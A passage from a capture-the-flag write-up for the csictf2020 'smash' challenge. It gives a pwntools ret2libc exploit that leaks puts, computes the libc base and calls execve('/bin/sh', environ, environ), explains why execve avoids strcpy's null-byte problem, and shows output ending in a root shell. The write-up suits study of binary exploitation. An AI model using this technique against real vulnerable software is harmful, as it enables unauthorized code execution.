 ```python
_ = p.recv(4)
puts = u32(_ + (4-len(_))*b'\x00')
log.info('puts: ' + hex(puts))
baselibc = puts - libc.sym.puts
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc

payload  = 0x88 * b'A'
payload += p32(libc.sym.execve)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())
payload += p32(libc.sym.environ)
payload += p32(libc.sym.environ)

p.sendlineafter('name?\n', payload)
p.recvuntil('!')
p.interactive()
```

In cases, like the above, where `system` has a null in Ubuntu 18's libc preventing `strcpy` from copying the entire exploit, consider `execve` as an alternate.

`execve` requires three parameters: the command, a _word_ array (e.g. `char* argv[]`) of command line parameters, and a second _word_ array (e.g. `char* envp[]`) of environmental variables.  Normally you'd just pass null (`0x0`), however, since `strcpy` terminates the copy at the first null, it's not possible to push this on the stack.  Fortunately, libc provides a `char* envp[]` that can be used for both parameters, `environ`.

Local output (Ubuntu 18 Docker container):

```bash
# ./exploit4.py
[*] '/pwd/datajerk/csictf2020/smash/hello'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/pwd/datajerk/csictf2020/smash/hello': pid 15037
[*] '/lib/i386-linux-gnu/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0xf7e12b40
[*] baselibc: 0xf7dab000
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
```
